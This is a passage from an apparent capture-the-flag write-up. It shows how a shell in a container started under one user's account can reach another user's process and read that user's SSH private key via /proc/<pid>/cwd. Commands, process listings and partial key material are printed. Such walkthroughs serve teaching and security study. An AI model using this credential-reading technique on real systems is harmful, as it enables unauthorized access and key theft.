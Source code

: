 jack's processes run as uid 1000, where as when I run `id` in gary's
container, it returns 1337. Except that the background process runs as
1000, even as gary:



    / $ id
    uid=1000 gid=1000



With this, from a container stood up under gary's account, if I get a
shell, I can see the long running `sleep`:



    / $ ps auxww
    PID   USER     TIME  COMMAND 
    ...[snip]...
    1196 1000      0:00 sleep 100000000
    ...[snip]...



Looking closer at the process, it's the same sleep I abused above:



    /proc/1196 $ ls -l
    total 0
    -r--r--r--    1 1000     1000             0 Feb 15 01:48 arch_status
    ...[snip]...
    lrwxrwxrwx    1 1000     1000             0 Feb 10 20:36 cwd -> /home/jack
    ...[snip]...



And read the SSH key:



    /proc/1196 $ cat cwd/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
    qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
    SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
    JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
    /pLldRcUB09RUIoMPm8CR7ES/58p9MMHIHYWztcMtjz7mAfTcbwczq5YX3eNbHo9YFpo95
    ...[snip]...



This allows for skipping the dev vhost and the file read entirely.

### Why

So how does this happen? As root, I'll go take a look at the webapp,
`/var/www/rainycloud/app.py`. This is the block of code that handles
incoming requests for containers from the "My Containers" page:


